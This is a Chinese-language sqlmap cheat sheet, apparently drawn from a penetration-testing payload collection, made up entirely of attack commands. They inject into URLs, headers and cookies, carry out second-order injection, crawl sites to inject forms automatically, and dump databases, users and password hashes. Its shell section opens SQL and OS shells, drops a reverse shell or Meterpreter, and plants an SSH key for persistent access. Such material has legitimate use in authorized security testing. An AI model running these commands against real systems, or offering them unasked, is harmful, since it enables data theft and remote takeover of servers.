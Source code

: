 ## 使用SQLmap进行SQL注入

### SQLmap基本参数

```powershell
sqlmap --url="<url>" -p username --user-agent=SQLMAP --random-agent --threads=10 --risk=3 --level=5 --eta --dbms=MySQL --os=Linux --banner --is-dba --users --passwords --current-user --dbs
```

### 使用移动端状态来加载请求文件

```powershell
sqlmap -r sqli.req --safe-url=http://10.10.10.10/ --mobile --safe-freq=1
```

### 在UserAgent/Header/Referer/Cookie数据头上进行注入

```powershell
python sqlmap.py -u "http://example.com" --data "username=admin&password=pass"  --headers="x-forwarded-for:127.0.0.1*"
The injection is located at the '*'
```

### 二次注入

```powershell
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```

### Shell

```powershell
SQL Shell
python sqlmap.py -u "http://example.com/?id=1"  -p id --sql-shell

Simple Shell
python sqlmap.py -u "http://example.com/?id=1"  -p id --os-shell

Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1"  -p id --os-pwn

SSH Shell by dropping an SSH key
python sqlmap.py -u "http://example.com/?id=1" -p id --file-write=/root/.ssh/id_rsa.pub --file-destination=/home/user/.ssh/
```

### 使用SQLmap爬取网站并实施自动注入

```powershell
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms
```

